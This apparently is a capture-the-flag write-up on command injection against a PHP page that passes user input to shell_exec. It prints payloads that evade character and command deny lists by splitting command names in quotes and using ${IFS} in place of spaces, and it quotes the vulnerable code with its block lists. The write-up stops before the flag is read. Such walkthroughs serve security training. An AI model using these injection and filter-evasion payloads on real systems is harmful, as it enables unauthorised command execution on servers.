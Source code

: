 we start off simple to list all files in the directory with `; ls -la`. this payload escapes the previous command by ending it early with a `;` and injects our new command, 'ls -la', but we are blocked with an error due to unauthorised characters in our input.

through trial and error, we can figure out that the blocked characters include ` ` (space), `()` (parentheses), `/` (forward slash), `*` (asterisk), `<` (left triangle bracket), `,` (comma)

that's okay, we can still make an attempt to list directory contents by eliminating the space and -la in our original payload, to make: `;ls`

result: `index.php quality.sh static`

attempts to `cat`, `echo` or `read` any of the files are blocked by either the characters filter or another filter that blocks commands like `rm` `cat` `cp` `touch` `echo` `read`.

let's first bypass the command filter in order to call `cat` on `index.php`. this can be done by the payload `'c''at'` that splits `cat` into two single-quoted strings.

then to include a space between `cat` and `index.php` we can make use of the Internal Field Separator `${IFS}` to inject a space between the two fields, bypassing the filter that blocks spaces.

payload: `;'c''at'${IFS}'index.php'`
```php 
$denyListCharacters = ['"', '*', '/', ' ', '<', '(', ')', '[', ']', '\\'];
$denyListCommands = ['rm', 'mv', 'cp', 'cat', 'echo', 'touch', 'chmod', 'chown', 'kill', 'ps', 'top', 'find'];
function loadSecretRecipe() { 
    file_get_contents('/flag.txt'); 
} 
function sanitizeCharacters($input) { 
    for ($i = 0; $i < strlen($input); $i++) { 
        if (in_array($input[$i], $GLOBALS['denyListCharacters'], true)) { 
            return 'Illegal character detected!'; } 
        } 
        return $input;
    } 
function sanitizeCommands($input) { 
    foreach ($GLOBALS['denyListCommands'] as $cmd {    
        if (stripos($input, $cmd) !== false) {      
            return 'Illegal command detected!'; 
        } 
    } 
        return $input; 
    } 
function analyze($ingredient) { 
    $tmp = sanitizeCharacters($ingredient); 
    if ($tmp !== $ingredient) { return $tmp; } 
    $tmp = sanitizeCommands($ingredient); 
    if ($tmp !== $ingredient) { return $tmp; } 
    return shell_exec("bash -c './quality.sh $ingredient' 2>&1"); } $result = $ingredient !== '' ? analyze($ingredient) : '';
```

we want to read /flag.txt. however, recall that forward slashes `/` are blocked by the character filter.
